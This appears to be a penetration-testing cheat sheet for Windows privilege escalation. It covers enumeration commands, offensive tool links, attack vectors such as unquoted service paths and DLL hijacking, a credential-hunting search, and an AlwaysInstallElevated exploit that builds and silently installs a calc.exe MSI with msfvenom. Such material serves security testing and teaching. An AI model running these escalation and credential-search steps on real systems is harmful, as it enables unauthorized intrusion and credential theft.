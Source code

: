 # Windows Privilege Escalation

## Quick Checklist

- User privileges: `whoami /priv`, `whoami /groups`
- Running processes: `tasklist /v`
- AlwaysInstallElevated:
```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
- Look for unquoted service paths:
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\" | findstr /i /v """

## Useful Tools

- [WinPEAS](https://github.com/carlospolop/PEASS-ng)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit)

## Common Vectors

- Unquoted service paths - Replace or hijack binaries in those paths
- Insecure service permissions - Modify configs/binaries if writable
- AlwaysInstallElevated - Abuse it to run MSI files as SYSTEM
- Credential hunting - Search for creds in:
  dir /s *pass* == *.txt
- Check registry, config files, saved RDP sessions, etc.
- DLL hijacking - Drop malicious DLLs into folders loaded by privileged apps


## Sample Exploit: AlwaysInstallElevated

```cmd
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi

```

## Notes 
 
Use WinPEAS for automation
Always verify privilege level: whoami, net session, net user
Clean up after testing (especially on real systems)